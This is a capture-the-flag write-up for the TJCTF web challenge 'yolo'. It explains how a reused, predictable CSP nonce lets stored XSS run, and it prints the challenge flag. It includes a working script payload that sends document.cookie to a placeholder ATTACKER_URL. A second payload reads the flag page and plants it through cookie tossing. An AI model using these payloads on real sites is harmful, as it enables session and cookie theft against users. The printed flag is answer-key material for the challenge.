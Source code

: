 # yolo

## Flag

tjctf{y0u_0n1y_1iv3_0nc3_5ab61b33}

## Solution

The web application contains a form with two fields "name" and "toDo" which can be submitted for creating a page.
The pages that can be created by the users can be shared with other by using links in the format `https://yolo.tjc.tf/do/userId`
and the user generated pages are also vulnerable to XSS, but there is a CSP.

The CSP of the web application uses a nonce-source:
```JavaScript
    req.locals.nonce = req.locals.nonce ?? '47baeefe8a0b0e8276c2f7ea2f24c1cc9deb613a8b9c866f796a892ef9f8e65d';
    req.locals.nonce = crypto.createHash('sha256').update(req.locals.nonce).digest('hex');
    res.header('Content-Security-Policy', `script-src 'nonce-${req.locals.nonce}'; default-src 'self'; style-src 'self' 'nonce-${req.locals.nonce}';`);
```

The "nonces" in the code above are reused in each session. For bypassing the CSP, we can now either calculate the correct "nonce" by using the code from above or
we can submit the form and open a link as the admin bot does and read the nonce from HTML source of that page.
We observe that `6cfa460c34d3b448767eb47edb9a73d03061e913cd8a7d712340ccdf8b342c36` is the correct "nonce" for bypassing the CSP on the admin bot.

Now, we can exploit the XSS vulnerability for example with the following payload in the "toDo" input field:
```JavaScript
<script nonce="6cfa460c34d3b448767eb47edb9a73d03061e913cd8a7d712340ccdf8b342c36">
window.location = "ATTACKER_URL?"+btoa(document.cookie);
</script>
```

We submit the link to the admin bot and obtain the base64 encoded value of `document.cookie`, we decode it and find the JWT.
Then, we use https://jwt.io/ to read the content of JWT and find the `userId`

```JSON
{
  "iat": VALUE,
  "nonce": "93af138c9d0fb8ad1c4ce6ea446bc0ab0f676ac7d823c00d4f2d6dbd42b645c7",
  "userId": "50698c58-a7f7-4869-8d82-9ef088e61ea4"
}
```

Now, we can navigate to `https://yolo.tjc.tf/do/50698c58-a7f7-4869-8d82-9ef088e61ea4` to obtain the flag.

Another possibility would be to use Cookie Tossing for letting the browser of the admin bot post the flag or with the following payload the value of `userId` to a page we can access:
```JavaScript
<script nonce="6cfa460c34d3b448767eb47edb9a73d03061e913cd8a7d712340ccdf8b342c36">
async function getFlag() {
   const ATTACKER_COOKIE = "ATTACKER_COOKIE";
   const userId = JSON.parse(atob(document.cookie.split("=")[1].split(".")[1])).userId;
   console.log(document.cookie.split("=")[1].split(".")[1]);
   console.log(JSON.parse(atob(document.cookie.split("=")[1].split(".")[1])));
   let response = await fetch("/do/"+userId);
   let text = await response.text();
   document.cookie = `token=${ATTACKER_COOKIE};path=/`;
   await fetch("/", {method: "POST",
                     headers: {
                        'Content-Type': 'application/x-www-form-urlencoded'
                     },
                     body: "name=a&toDo="+encodeURIComponent(text)});
}
getFlag();
</script>
```
